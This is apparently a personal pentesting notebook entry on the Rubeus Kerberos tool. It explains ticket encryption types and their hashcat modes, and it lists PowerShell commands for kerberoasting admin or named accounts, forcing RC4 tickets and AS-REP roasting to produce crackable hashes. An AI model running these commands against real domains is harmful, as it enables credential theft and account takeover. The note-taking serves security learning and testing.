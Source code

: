 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Rebeus is a tool for interacting with raw kerberos. It can make general interactions but also attacks, boasting a vast number of options and configuration settings.

Some key features include:
- Performing kerberoasting and outputting hashes to a file
- Using alternative credentials
- Performing kerberoasting followed by a [[Password Attacks#Pass-the-Hash|pass-the-hash]] attack
- Performing "opsec" kerberoasting to filter out AES-enabled accounts
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES kerberoasting
### A word on encryption
Kerberos can use a variety of encryption algorithms (eg. RC4, AES-128, AES-265). In most cases, we want to focus on `RC4` encrypted tickets as that algorithm is easier to crack.
A ticket is prefixed with `$krb5tgs$23$*`, where `23` is `RC4` (type 23):
- RC4 : type 23 : hashcat `13100`
- AES-128 : type 17 : hashcat `19600`
- AES-256 : type 18 : hashcat `19700`

> RECOMMENDATION: Force AES encryption for kerberos tickets (can be done in AD config)
## Installation
```

```

## Documentation
**Cheatsheet:** 
**Website:** https://github.com/GhostPack/Rubeus
## Usage
### Kerberoast accounts that have admin
```PowerShell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

### Kerberoast a specific user
```PowerShell
.\Rubeus.exe kerberoast /user:[user] /nowrap
```

### Request a RC4 encrypted ticket
> This only works for Windows Server 2016 and earlier, unless the group policy is modified to allow RC4
```PowerShell
.\Rubeus.exe kerberoast /tgtdeleg /user:[user] /nowrap
```

### ASREPRoasting
```PowerShell
.\Rubeus.exe asreproast /user:[user] /nowrap /format:hashcat
```
> Hashcat mode : 18200